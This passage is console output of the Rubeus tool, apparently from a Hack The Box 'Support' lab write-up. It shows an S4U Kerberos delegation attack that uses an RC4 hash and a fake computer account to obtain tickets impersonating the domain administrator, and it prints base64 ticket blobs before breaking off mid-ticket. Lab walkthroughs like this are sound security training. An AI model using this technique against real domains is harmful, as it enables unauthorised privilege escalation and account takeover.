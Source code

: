        ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.6.4

    [*] Action: S4U

    [*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
    [*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
          AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxOeKt6Ird
          teB+aO1v2heZp/GctaiPKQ3PL7uv6vECkSfrJZ96wZxhiTn96yEK0iBG6iu/lW45R67fkTiYVjrCwJ2x
          0Iv4AVbat5CjivLd2vBB3P8TMt/2yS3dFuDHxRxt43pJY/BCMq867ckAYrmVJZkV4J2Gr+bhLCrX0iEN
          9gX7iTMtKRrE9Pb6hZsu4CUpxMs8UpgJXI+kvKgE7EXwVTd5sIWNHjIu5Lvpuqk8jx98Zy11md6ZvcTc
          qbWis+ZIb/BSHdu35F4TtpMt48RZdeoXvrFcmYbzfzi3yVSZ8I3T50v2HdZj9GaGWknvCSUpGLsrW42P
          cfVBy3cvx9nfVTgNlF0mFMl1NOkf41HsixyBoJjLay2oxAJOmfZDGdjzA88rlx5Ox0z6Llj8RsmsJz6q
          59turK4Kaa7zUGxIMFhb+Snxb2YJm3HAVxdOsxnynQOpAWdOU8lztOaGiM9x6d0VADbvt0QJAjdJkFw4
          sbK6wQ8/Ptu02FCseBd2aUII0AAWFiWwrECPbGeHv/0tqP67Q8BhQNXF6QN7wGJQmLAz8f5a5KaX9Vo6
          2plegvVBrfxQ2SY5wN5xosvUC+U2MX636+8N68TRQca3nFGn3E7Du8sDwPUuK2m/POgWcP4UDixT0cXr
          PcnQOSc/FhukCBqLLMjdGgojyZoF5FHUwpDGfugZ4G0WcrLeZd/L4AhHw395gr3AeFCCawQ9XaUTjlOR
          oh2S3UJCZIizzk7Wiq320lYSFc2m0lMIPYr8i/70DAdlOUus6K2zArE2NnATqHKO6vAs7fy1p+KmF3B/
          6B1g6yr6D9aQo8xMP3qd3oyt4QslVlgqp+GBxh+cjWYv/rU6OFnGdtEa0xxLH/C1raCUXR6Rf1bEKn+t
          o49wwMt6qun7jcE3ugx/T09vU5Uwowit/X+qq3ePO3FDhxjPWHApbOW7wTU3f/kLo4fD6RGPaheYWOba
          BP88mxKCRhUy1hUtZ+kjamRCJD9QHXAj8RIoIrNMaEkpWI0Z7qw4RHwgPdY9vAqff1qkAhp5r5w+QC9y
          Y5JQx/gzruHzHXqYe7D1vADY1oiEQG7jsrbwY/i9I+qKn5BCFv7DXvjHpxWPKN/ndQnTnBbLwQb6ebh0
          CkH6GO4pDi7CpYVxdESomq3INLsrljYZuCafnJSqriyxw9d1ijpEosqzm6vLPbceDj41LVEquCkkaVsM
          pPdHPDGu0ojm+XmLaJGeSe2kNvoRd4htT9zux07Q/Mj8OF/gRxaQOEppIxh4YAKftSvWuU5jzzBtp9aq
          Ji+amwKGy5YfgrLPgIcWNMw93nZlcPBvM87WPFWuZ0vZq9eLwEa8+0rjnWAs2K7/kLWl0rYlt7fhSwcg
          lLKZn8OnFYHPLh2TcC6sXvxp6QGBj26CDZItT1iGukoG7EQ1poHRFRcsSPQyrRko5Z7naJy68tIZNu48
          H7mwyIdSySElDF1uTzq+IxB89wRZEKLw/0RXtOWD0M6RRDIhI0wrVv63PCwozFB+ieeLo4HcMIHZoAMC
          AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ1yZNKdbgtnM3PxOJKOgHv6ENGwtTVVBQ
          T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjIwNTI3
          MTkzODE3WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRC
          qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


    [*] Action: S4U

    [*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
    [*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
    [*] Sending S4U2self request
    [+] S4U2self success!
    [*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
    [*] base64(ticket.kirbi):

          doIFtjCCBbKgAwIBBaEDAgEWooIEyzCCBMdhggTDMIIEv6ADAgEFoQ0bC1NVUFBPUlQuSFRCoh4wHKAD
          AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcZ6UqORuDjTI
          ovz9MkcGwxl8rVEyAFKXAVPrmN+iR2r8sUCOBmZS/ytvLBy6XGsg0GalPlL0IcINTxVrQbP1icxnroBo
          eLTqv3H901wMy7wS8cUgDBF54mAVlbucFvRq5TvGA+csHNjAV4b8RWhHbXlDkMRXZfTVmaQimnOzH103
          UvTuGuXKext8Z0STVMasbHm9FzP9vFL0d55G6vUO4nw29h4AoQ2o4Pi9+5Xm0zFnZaCx0yRYa8RFbBB6
          dcTEioS0aN1bnHG2WfuWVmJ6876loH+lV1oP8Rc9z9cN1lsSAEkDEK05RGBXbb6sWNNHPFVUDkcpcSg1
          Gg5NM5AI7jfgHSkRuuVe8dSrc5wD9KADcsaRSqL2zE9ykF691m/m8Lnj//dNWbx5HZ0UVQL3LKKXt9lP
          /HAPrZAVQ7WDGmTs1k+sdGOtkvmBrIpzqaqC53o2mOCezjxfBlT5SsgXu/M9bZa1PR9QAN6WuKW+/XUN
          asQzZ0PHY1CvkJQ3/w8LLJEl6X60vFK7WoOLPLa40pBfX/RnWakWB/FzF0ht5z4valdoo3LgMfxUtcVu
          LMARwoUSNJD5aOT1xRk10BYkSDtbqtx1VZGjCMjyDf+7Czqog1GIotk+GoCk3yt2lCCFpW/jp+zSmQMN
          8iAviSrrJHc4MaMa81EzDoB6Gj2ZMWowKL1Dv/ByE8XbSjd6rhWwVIhPBjaCKQCtI6qVoyfGnUmrHRt8
          oCtumbkyBahCJQ6tnSp3k8dyVAu9fPx968jNOSzVq+XGttjCt/U8Z0FNFsHcpIIQDP6Z5619aYemNvWh
          XG0q194XhH4xeSfcEfV0gFV4ppAjWgaQEXCfwp4j7HuC1DujEvk5co/2unh9TeNtKXkEd3ji+RwUXAd7